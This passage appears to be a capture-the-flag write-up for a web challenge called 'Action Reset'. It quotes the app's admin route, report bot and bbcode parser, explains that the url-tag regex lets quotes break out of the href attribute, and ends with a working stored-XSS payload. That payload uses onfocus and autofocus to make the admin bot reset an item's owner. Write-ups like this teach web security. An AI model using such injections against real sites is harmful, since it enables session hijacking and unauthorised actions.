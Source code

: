 ### Action Reset

By looking at the views we can see there's an admin page:

```
extends layout

block content
  div(class="admin-item-panel")
    each item in items
      .item-view 
        p= item.name
        p Owner: #{item.username}
        button(onclick=`resetOwnership(${item.id})`) Reset
  
  script(src="/js/admin.js")
```

The `resetOwnership` function is defined in the `admin.js` file:

```
const resetOwnership = (action_id) => {
  $.ajax({
    type: "POST",
    url: "/admin",
    contentType: "application/json",
    data: JSON.stringify({
      id: action_id,
    }),
    success: (data) => {
      // Handle the response from the server
      if (data.redirect) window.location.pathname = data.redirect;
      if (data.message) window.messagebox.innerText = data.message;
    },
    error: (error) => {
      console.error("Error:", error);
    },
  });
};
```

The code to reset the owner is protected by the `requireAdmin` middleware:
```
requireAdmin: (req, res, next) => {
  if (req.session.user.username === process.env.ADMIN_USERNAME) {
    return next();
  } else {
    res.redirect("/");
  }
}
....
router.post("/", body("id").notEmpty(), (req, res) => {
  const data = validate(req, res);
  if (!data) {
    return;
  }

  action_id = parseInt(data.id);
  if (isNaN(action_id)) {
    res.json({
      result: "failure",
    });
    return;
  }
  db.resetItemOwner(action_id).then((success) => {
    if (success) {
      res.json({
        result: "success",
        redirect: "/admin",
      });
    } else {
      res.json({
        result: "failure",
        redirect: "/admin",
      });
    }
  });
});
```

We notice that the application runs a bot which logs in and check the reports.
The code of the bot is available at `/src/utils/report.js`, it basically log in and visit the URL.

We can report via the endpoint `/report` (POST) or in the error page, and the admin will visit our url (if it is in the web page, checked via `BOT_SANITY_REGEX`).

This means that only the admin can reset the owner of an action and it must be in the website. How can we perform an XSS?

By checking our account page we notice that we can set a [motto](https://en.wikipedia.org/wiki/Motto) for the team, and it supports a little of [bbcode](https://en.wikipedia.org/wiki/BBCode).
The parser is in the file `bbrender.js`:

```
$(document).ready(() => {
  if (window.current_motto) {
    var current_motto = window.current_motto.innerText;
    if (current_motto.includes("<") || current_motto.includes(">")) return; // Welcome back to my laboratory, where safety is number one priority
    current_motto = current_motto.replace(/\[b\]/, "<strong>");
    current_motto = current_motto.replace(/\[\/b\]/, "</strong>");
    current_motto = current_motto.replace(/\[i\]/, "<i>");
    current_motto = current_motto.replace(/\[\/i\]/, "</i>");
    current_motto = current_motto.replace(/\[url ([^\]\ ]*)\]/, "<a href=$1>");
    current_motto = current_motto.replace(/(.*)\[\/url\]/, "$1</a>");
    // Images are so dangerous
    // current_motto = current_motto.replace(/\[img\]/, '<img src="');
    // current_motto = current_motto.replace(/\[\/img\]/, '" />');
    window.current_motto.innerHTML = current_motto;
  }
});
```

We notice that images tag are not parsed, but URLs are! We can focus on the line `current_motto = current_motto.replace(/\[url ([^\]\ ]*)\]/, "<a href=$1>")`: this regex is way too permissive, since the only constraint we have is that there's no `]` or whitespace in our payload!

In fact, we can insert the double quote to close the `href` attribute of the link and execute javascript with events like `onfocus`, triggered via `autofocus`.
With this XSS we can reset an action owner!

An example payload can be `[url ""onfocus="fetch('/admin',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({id:1})})"autofocus]` to reset the action with ID 1.
